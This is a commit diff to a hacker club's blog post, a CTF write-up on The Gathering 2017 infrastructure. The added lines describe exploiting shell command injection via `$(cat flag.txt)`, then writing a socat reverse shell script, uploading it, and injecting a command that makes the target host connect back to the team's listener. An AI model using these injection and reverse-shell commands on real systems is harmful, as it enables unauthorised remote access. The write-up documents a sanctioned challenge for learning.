

Before and after one commit to labanskoller/hackeriet_blog, a Jekyll site: the page built from _posts/2017-04-17-investigating-the-gathering-infrastructure.md, in a window 1280 px wide and 1400 px high, scrolled down 2428 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3524 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add reverse shell details

````diff
--- a/_posts/2017-04-17-investigating-the-gathering-infrastructure.md
+++ b/_posts/2017-04-17-investigating-the-gathering-infrastructure.md
@@ -26,7 +26,7 @@ and the current time.
 The server side code did this by running a shell command, and the input wasn't
 sanitized.
 
-We got the flag by entering $(cat flag.txt) as the name. It was TG17{tick_t0ck_arbitrary_c0de_execution}.
+We got the flag by entering `$(cat flag.txt)` as the name. It was `TG17{tick_t0ck_arbitrary_c0de_execution}`.
 
 But then we looked around some more, and discovered that /tmp was writeable and
 executable, and gcc was also installed. A peek at the files in /etc confirmed our guess
@@ -90,15 +90,29 @@ echo "Executable at $DEST.sh"
 ```
 
 Some more exploring reveled that they hadn't blocked outgoing connections from the
-docker image, so we uploaded a reverse shell and on our server we did:
+docker image, so we created the reverse shell binary:
+
+```bash
+#!/bin/bash
+socat tcp:$1:$2 exec:"bash -i",pty,stderr,setsid,sigint,sane
+```
+
+uploaded it to the server:
+
+```bash
+ncupl time.tghack.no 1111 ./reverse-shell.sh c
+```
+
+started listening for connections on our own server:
 
 ```bash
 socat -,raw,echo=0 tcp-listen:14243
 ```
 
-and executed the shell with:
+then initiated the reverse shell connection from the remote host:
+
 ```bash
-echo '$(/tmp/c <serverip> 14243)' | nc time.tghack.no 1111
+echo '$(/tmp/c.sh <our serverip> 14243)' | nc time.tghack.no 1111
 ```
 
 This made it a lot easier to explore the system, unfortunately other obligations came
````
